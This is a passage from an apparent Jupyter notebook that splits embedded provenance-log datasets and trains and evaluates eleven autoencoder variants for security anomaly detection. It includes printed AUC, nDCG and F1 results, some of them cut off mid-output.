    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing Linq-Mistral suffixes
    key_name = filename.replace(".pkl", "").replace("_linq_mistral", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR LINQ-MISTRAL!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_linq_mistral
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_linq_mistral.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_linq_mistral\5dir\train\ProcessAll.pkl and final_train_test_split_linq_mistral\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_linq_mistral.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_linq_mistral\5dir\train\ProcessEvent.pkl and final_train_test_split_linq_mistral\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_linq_mistral.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 4096), Test: (2223, 4096)
  ✓ Saved to: final_train_tes

#### Training AEs and saving `.pth` files 

In [3]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for Linq-Mistral
BASE_DIR = "final_train_test_split_linq_mistral"
RESULTS_FILE = "results_all_autoencoders_linq_mistral.csv"
MODEL_SAVE_DIR = "saved_weights_linq_mistral"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] linq-embed-mistral uses 4096 dimensions (Mistral-7B base)
INPUT_DIM = 4096    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.6524 | nDCG: 0.2683 (DCG: 1.1414, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.5955 | nDCG: 0.2505 (DCG: 1.0656, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.5951 | nDCG: 0.2683 (DCG: 1.1414, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.528 | nDCG: 0.2439 (DCG: 1.0375, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.6705 | nDCG: 0.2269 (DCG: 0.9652, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.5692 | nDCG: 0.2557 (DCG: 1.0878, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.5821 | nDCG: 0.2495 (DCG: 1.0613, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.5551 | nDCG: 0.248 (DCG: 1.0551, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.6533 | nDCG: 0.2752 (DCG: 1.171, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.642 | nDCG: 0.2799 (DCG: 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training DAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9209 | nDCG: 0.7544 (DCG: 15.7967, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.8132 | nDCG: 0.3829 (DCG: 8.0183, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.515 | nDCG: 0.3846 (DCG: 8.0534, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.8947 | nDCG: 0.4635 (DCG: 9.7046, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.8199 | nDCG: 0.3837 (DCG: 8.0343, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.8308 | nDCG: 0.3801 (DCG: 7.9597, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.8156 | nDCG: 0.3827 (DCG: 8.0127, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.8169 | nDCG: 0.3856 (DCG: 8.0748, IDCG: 20.9387)
    -> Training L

In [5]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "linq_mistral" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] linq-ai/linq-embed-mistral uses 4096 dimensions
INPUT_DIM = 4096 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for LINQ_MISTRAL on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.0556 | PR-AUC: 0.0158
    -> Sparse Done! F1: 0.0207 | PR-AUC: 0.007
    -> Deep SVDD Done! F1: 0.0635 | PR-AUC: 0.0173
    -> DAE Done! F1: 0.0667 | PR-AUC: 0.01
    -> VAE Done! F1: 0.0303 | PR-AUC: 0.0101
    -> Beta-VAE Done! F1: 0.0154 | PR-AUC: 0.0056
    -> GMVAE Done! F1: 0.0207 | PR-AUC: 0.0068
    -> Attention AE Done! F1: 0.0678 | PR-AUC: 0.011
